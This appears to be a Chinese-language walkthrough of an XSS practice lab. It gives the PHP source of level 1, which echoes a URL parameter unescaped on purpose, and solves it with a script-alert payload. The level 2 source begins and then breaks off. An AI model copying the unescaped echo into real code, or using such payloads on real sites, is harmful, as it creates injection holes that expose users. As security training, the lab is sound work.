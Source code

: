 #### （1）反射型 XSS

##### level 1
#源码

```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level2.php?keyword=test"; 
}
</script>
<title>欢迎来到level1</title>
</head>
<body>
<h1 align=center>欢迎来到level1</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
<center><img src=level1.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>
```

#注入过程

在script内，如果alert函数被调用执行，则会弹出警示框，重定向到level2

window.location.href 重定向

那么直接在url的name参数进行xss注入。

payload：

```xml
<script>alert(1)</script>
```

##### level 2

#源码

```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level3.php?writing=wait"; 
}
</script>
<title>欢迎来到level2</title>
</head>
<body>
<h1 align=center>欢迎来到level2</h1>
<?php 
ini_set("display_errors", 0);
```
